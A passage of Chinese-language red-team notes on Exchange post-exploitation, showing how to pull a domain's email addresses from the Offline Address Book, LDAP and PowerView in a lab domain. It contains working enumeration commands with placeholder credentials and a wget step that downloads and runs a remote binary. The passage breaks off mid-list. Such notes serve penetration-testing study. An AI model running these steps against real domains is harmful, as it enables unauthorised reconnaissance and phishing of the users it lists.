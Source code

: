     请求 `<OABUrl>/oab.xml` 页面并列出 OAB 文件：

    ![](../../../../../assets/img/Security/RedTeam/后渗透/实验/Exchange/3.png)

    找到其中 Default Global Address List (默认全局地址列表) 对应的 lzx 文件名称，lzx 文件名称为 fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx

    下载 lzx 文件
    ```
    win-4j4l8gp7bf2.f8x.com/OAB/b6eaa1c0-d7f5-4619-ad8d-b453f967353b/fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx
    ```

    对 lzx 文件解码，还原出 Default Global Address List
    ```
    wget http://x2100.icecube.wisc.edu/downloads/python/python2.6.Linux-x86_64.gcc-4.4.4/bin/oabextract
    chmod +x oabextract
    ./oabextract fd1e35ac-08ef-4e4c-a6fc-b8b88c69c7b2-data-1.lzx gal.oab
    strings gal.oab|grep SMTP
    ```

- ldap

    ```
    ldapsearch -x -H ldap://$IP:389 -D "CN=$username,CN=Users,DC=f8x,DC=com" -w $password -b "DC=f8x,DC=com" |grep mail:
    ```

    Windows 系统通过 PowerView 获取所有用户邮件地址
    ```
    $uname=$username
    $pwd=ConvertTo-SecureString $password -AsPlainText –Force
    $cred=New-Object System.Management.Automation.PSCredential($uname,$pwd)
    Get-NetUser -Domain f8x.com -DomainController $IP -ADSpath "LDAP://DC=f8x,DC=com" -Credential $cred | fl mail
    ```

- 域内查询
